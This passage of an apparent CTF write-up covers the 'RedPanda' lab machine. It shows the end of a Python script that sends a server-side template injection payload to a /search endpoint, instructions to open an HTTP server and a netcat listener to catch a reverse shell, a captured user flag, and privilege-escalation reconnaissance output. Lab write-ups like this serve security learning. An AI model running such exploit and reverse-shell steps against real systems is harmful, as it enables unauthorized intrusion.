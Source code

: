 ```python
  
    payload = payload + ").getInputStream())}"  
    return(payload)  
  
for c in command:  
    d = {'name': convert_to_char(c)}  
    url = 'http://%s:%s/search' % (IP,PORT)  
    r = requests.post(url,data = d)  
    print(r.status_code)
```


open 2 new tab with `http.server 8088` and `rlwrap nc -nvlp 1234`. At the 3 tabs run `python3 auto_exploit.py`
The `user.txt` flag:
```
efaa8f33e98ff3993b20c6bade76a83a
```

# Escalate Privilege
Check the port open with `netstat -tulpn`
```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::8080                 :::*                    LISTEN      887/java
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
woodenk@redpanda:/tmp/hsperfdata_woodenk$
```

Check the `id,group`
```bash
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
woodenk@redpanda:/tmp/hsperfdata_woodenk$
```

Check the process with `pspy64`
![pspy64.png](img/pspy64.png)
```bash
2022/08/28 09:06:01 CMD: UID=0    PID=3052   | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
```
